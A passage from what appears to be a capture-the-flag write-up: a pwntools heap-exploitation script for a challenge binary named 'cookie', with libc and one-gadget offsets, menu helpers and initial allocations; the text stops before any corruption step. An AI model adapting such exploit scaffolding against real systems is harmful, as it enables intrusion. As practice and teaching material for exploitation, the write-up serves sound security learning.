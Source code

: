 ### 完整exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author: cnitlrt
import sys
import os
import re
from pwn import *
# context.log_level = 'debug'

binary = './cookie'
elf = ELF('./cookie')
libc = elf.libc
context.binary = binary

DEBUG = 1
if DEBUG:
  p = process(binary)
else:
  host = sys.argv[1]
  port =  sys.argv[2]
  p = remote(host,port)
o_g = [0x45216,0x4526a,0xf02a4,0xf1147]
magic = [0x3c4b10,0x3c67a8,0x846c0,0x45390]#malloc,free,realloc,system
l64 = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
sla = lambda a,b  :p.sendlineafter(str(a),str(b))
sa  = lambda a,b  :p.sendafter(str(a),str(b))
lg  = lambda name,data : p.success(name + ": 0x%x" % data)
se  = lambda payload: p.send(payload)
rl  = lambda      : p.recv()
sl  = lambda payload: p.sendline(payload)
ru  = lambda a     :p.recvuntil(str(a))
def cmd(idx):
    sla(">>",str(idx))
def add(size,payload):
    cmd(1)
    sla("Size:\n",str(size))
    sa("Content:\n",payload)
def show(idx):
    cmd(3)
    sla("Index:\n",str(idx))
def free(idx):
    cmd(2)
    sla("Index:\n",str(idx))
def edit(idx,payload):
    cmd(4)
    sla("Index:\n",str(idx))
    sa("Content:\n",payload)
def ss():
    gdb.attach(p)
    pause()
def exp():
    add(0x458,"aaaa")
    add(0x500,"aaaa")
    add(0x468,"aaaa")
    add(0x500,"aaaa")#3
    add(0x500,"aaaa")#4
    add(0x500,"aaaa")#5
    add(0x500,"aaaa")#6
    add(0x500,"aaaa")#7
```